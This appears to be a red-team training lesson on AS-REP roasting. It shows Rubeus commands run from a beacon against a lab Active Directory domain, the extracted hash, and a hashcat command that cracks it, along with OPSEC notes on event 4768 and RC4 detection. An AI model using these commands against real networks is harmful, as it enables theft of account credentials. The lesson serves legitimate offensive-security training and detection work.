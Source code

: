 # Kerberos Tickets

This lesson will run through some basic credential access techniques that are pertinent to Kerberos.  A more detailed explanation of the protocol can be found in the dedicated [Kerberos chapter](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=674b79df7385fdbe1c0e7737) - you may wish to read ahead and then come back to this lesson.

### AS-REP Roasting <a href="#el_1736795812160_1535" id="el_1736795812160_1535"></a>

AS-REP roasting is a technique \[[T1558.004](https://attack.mitre.org/techniques/T1558/004/)] for obtaining the plaintext password of accounts that have Kerberos preauthentication disabled.  In these cases, an adversary can send AS-REQs without having to provide a valid encrypted timestamp and the KDC will respond with an AS-REP containing the TGT for the target account.  AS-REPs contain a logon session key which is encrypted with the principal's hash.  The adversary can extract this encrypted blob and to brute-force it offline to recover the accounts plaintext password.

Rubeus' `asreproast` command will enumerate every account that has preauthentication disabled, sends an AS-REQ for them, then carves out the encrypted part.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap

[*] Action: AS-REP roasting
[*] Target Domain          : contoso.com
[*] Searching path 'LDAP://lon-dc-1.contoso.com/DC=contoso,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'

[*] SamAccountName         : oracle_svc
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=contoso,DC=com
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Building AS-REQ (w/o preauth) for: 'contoso.com\oracle_svc'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

$krb5asrep$23$oracle_svc@contoso.com:92D6F[...snip...]19124
```

\
By default, Rubeus outputs hashes for John the Ripper.  Use `/format:hashcat` to output them for Hashcat instead.

These RC4 AS-REP's can be cracked using hashcat's 18200 mode.

```
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 18200 .\asrep.hash .\example.dict -r .\rules\dive.rule
$krb5asrep$23$oracle_svc@contoso.com:92d6f[...snip...]19124:Passw0rd!
```

#### OPSEC <a href="#el_1736857829284_830" id="el_1736857829284_830"></a>

Most detection strategies are geared towards looking at unusual or anomalous ticket requests.  Each AS-REP generates a 4768 event, so a single user sending multiple AS-REQs in a short timeframe should be investigated.  Rubeus also requests RC4-encrypted tickets by default because they are easier to crack.  However, since modern versions of Windows uses AES128 and 256, the use of RC4 tickets can stand out.
